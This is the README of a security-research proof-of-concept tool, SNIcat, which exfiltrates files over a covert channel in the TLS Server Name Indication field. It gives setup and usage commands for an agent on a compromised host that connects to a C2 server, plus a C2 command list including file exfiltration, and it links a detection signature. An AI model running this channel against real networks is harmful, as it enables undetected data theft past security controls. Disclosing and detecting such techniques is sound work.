 # SNIcat (Server Name Indication Concatenator)

<img align="right" src="/images/snicat-logo.png" alt="SNIcat" width="175x" height="200">

**SNIcat** is a proof of concept tool that performs data exfiltration, utilizing a covert channel method via. *Server Name Indication*, a **TLS Client Hello Extension**.
The tool consists of an **agent** which resides on the compromised internal host, and a **Command&Control** Server which controls the agent and gathers exfiltrated data.

The full story behind SNIcat can be found in our [blog post](https://www.mnemonic.no/blog/introducing-snicat)

## Disclaimer

SNIcat has been tested on macOS and a variety of linux distributions.
Even though it can be easily ported, there is currently no Windows version, as this is just a PoC tool.

The exfiltration method does not work with explicit proxies, due to the use of HTTP CONNECT, and not TLS Client Hello, when connecting via an explicit proxy.<br/>
SNIcat might not work with products and software versions that we haven’t tested, but that does not mean the products and/or software versions aren’t vulnerable. 

## SNIcat in action

![](/images/snicat.gif)

## Background and Scenario

We discovered a new stealthy method of data exfiltration that specifically bypasses security perimeter solutions such as web proxies, next generation firewalls (NGFW), and dedicated solutions for TLS interception and inspection. Our testing validates that this is a widespread issue that affects different types of security solutions as well as solutions from a variety of vendors. We successfully tested our technique against products from Cisco, F5 Networks, Palo Alto Networks and Fortinet, and speculate that many other vendors also are susceptible. 

By using our exfiltration method SNIcat, we found that we can bypass a security perimeter solution performing TLS inspection, even when the Command & Control (C2) domain we use is blocked by common reputation and threat prevention features built into the security solutions themselves. In short, we found that solutions designed to protect users, introduced them to a new vulnerability.

We have also provided a [Suricata signature](/signatures/snicat.rules) for detecting this specific tool.

## Installation

Clone the repository: 

```bash
https://github.com/mnemonic-no/SNIcat.git
```

Install dependencies: 

```bash
pip3 install -r requirements.txt --user
```

## Initial setup

**C2**

Aquire a wildcard certificate and key from a publically trusted CA. This represents the *GOOD_CERT* and *GOOD_CERT_KEY*.<br/>
Utilise a self-signed certificate and key (not in any trust store) as a *BAD_CERT* and *BAD_CERT_KEY*.

```
(*) USAGE:      'python3 snicat_c2.py <LISTENING_PORT> <GOOD_CERT> <GOOD_CERT_KEY> <BAD_CERT> <BAD_CERT_KEY> log={on|off}'
(*) EXAMPLE:    'python3 snicat_c2_final.py 443 certs/good.pem certs/good.key certs/ssl-cert-snakeoil.pem log=off'
```

**Agent**

```
(*) USAGE:      'python3 snicat_agent.py <C2_SERVER_IP> <C2_SERVER_PORT> log={on|off}'
(*) Example:    'python3 snicat_agent.py 192.0.2.1 443 log=off'
```


## Usage

C2 Available commands

```
LIST			 - 	display all content in current folder
LS			 - 	display only files in the currenet folder
SIZE			 - 	display size of files in the currenet folder
LD			 - 	display every directory in current folder
CB			 - 	moves down to root tree folder - similar to 'cd .. '
CD <folder-id> 		 - 	moves up the specified folder
EX <file-id> 		 - 	exfiltrate the specified file
ALIVE 			 - 	check alive/dead agent
EXIT 			 - 	quit the C2 server
```
